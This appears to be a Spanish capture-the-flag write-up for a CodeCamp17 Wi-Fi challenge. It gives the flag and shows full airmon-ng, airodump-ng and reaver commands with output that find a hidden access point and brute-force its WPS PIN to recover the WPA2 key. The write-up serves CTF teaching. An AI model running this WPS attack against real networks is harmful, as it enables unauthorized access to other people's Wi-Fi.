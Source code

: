 # The love is in the air

<3

R: **CodeCamp17{aHR0cHM6Ly95b3V0dS5iZS9mUUdiWG1rU0Fycwo=}**


Hit: //TODO

---------------------------

#Solución

Durante el evento se habilitará un punto de acceso con el ESSID oculto. Haciendo un escaneo se puede ver que existe un AP oculto

```
$ airmon-ng start wlan0
$ airodump-ng mon0
CH 13 ][ Elapsed: 0 s ][ 2017-02-06 00:18
                                                                                                 
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 64:16:F0:E0:6F:CF  -45        5        0    0   1  54e  WPA2 CCMP   PSK  <length:  0>

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe
```


Con herramientas como wash es facil darse cuenta que tiene activado WPS. Curiosamente, es posible realizar un ataque sin saber el ESSID del AP. 


```
$ reaver -i mon0 -b 64:16:F0:E0:6F:CF -vvv

Reaver v1.4-r119 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Waiting for beacon from 64:16:F0:E0:6F:CF
[+] Switching mon0 to channel 1
[+] Associated with 64:16:F0:E0:6F:CF (ESSID: (null))
[+] Trying pin 12345670
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
[+] Received M3 message
[+] Sending M4 message
[+] Received WSC NACK
[+] Sending WSC NACK
[+] Trying pin 00005678
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
[+] Received M3 message
[+] Sending M4 message
[+] Received WSC NACK
[+] Sending WSC NACK
[+] Trying pin 11865674
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
[+] Received M3 message
[+] Sending M4 message
[+] Received WSC NACK
[+] Sending WSC NACK
[+] Trying pin 16535671
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
[+] Received M3 message
[+] Sending M4 message
[+] Received M5 message
[+] Sending M6 message
[+] Received M7 message
[+] Sending WSC NACK
[+] Sending WSC NACK
[+] Pin cracked in 15 seconds
[+] WPS PIN: '16535671'
[+] WPA PSK: 'CodeCamp17{aHR0cHM6Ly95b3V0dS5iZS9mUUdiWG1rU0Fycwo=}'
[+] AP SSID: 'love'
```